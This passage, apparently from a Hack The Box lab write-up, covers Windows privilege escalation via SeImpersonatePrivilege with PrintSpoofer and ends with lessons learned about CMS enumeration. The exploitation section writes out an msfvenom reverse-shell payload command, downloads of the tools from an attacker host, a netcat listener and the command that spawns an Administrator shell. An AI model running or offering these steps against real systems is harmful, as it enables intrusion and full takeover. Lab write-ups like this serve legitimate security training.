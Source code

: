 ```bash
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

Of these, the most intereting one is SeImpersonatePrivilege. [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) has a lot of information on abusing these tokens. For this, I decide to go with [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) mainly because I think it has the simplest kill chain. 

### Exploitation
Download PrintSpoofer.exe onto the box along with your favorite reverse shell payload (I used msfvenom to generate a stageless payload `msfvnom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -f exe -o reverse.exe`  but there is no reason you shouldn't be able to use something like ncat)
```powershell
Invoke-WebRequest -Uri "http://10.10.14.10:8080/PrintSpoofer.exe" -OutFile "C:\Temp\PrintSpoofer.exe"

Invoke-WebRequest -Uri "http://10.10.14.10:8080/reverse.exe" -OutFile "C:\Temp\reverse.exe"
```

Start up a listener (`nc -lnvp 1337`) and run PrintSpoofer.exe to get a reverse shell as Administrator
```powershell
.\PrintSpoofer -i -c .\reverse.exe
```

## Review and Lessons Learned
Overall, fun box. 

The foothold is interesting and is meant to get you familiar with CMS. Most easy HTB machines that run a web server have some sort of CMS. 
- When testing CMS it's always a good idea to keep a record of all CVE's associated with the CMS.
- Try looking for a CMS scanner
- Web applications contain an enormous amount of information. If there is a login form for authentication then credentials have to be stored somewhere. Typically, web apps have to make a connection to a database somewhere in order to retrieve this information
	- In this scenario, we had access to a backup folder with a compressed database
- If you don't know what a file is ALWAYS DO SOME RESEARCH. I glosssed over Umbraco.sdf on my first scan because I didn't think anything of it. After Googling, I realized that it may be more important than I origianlly thought. 

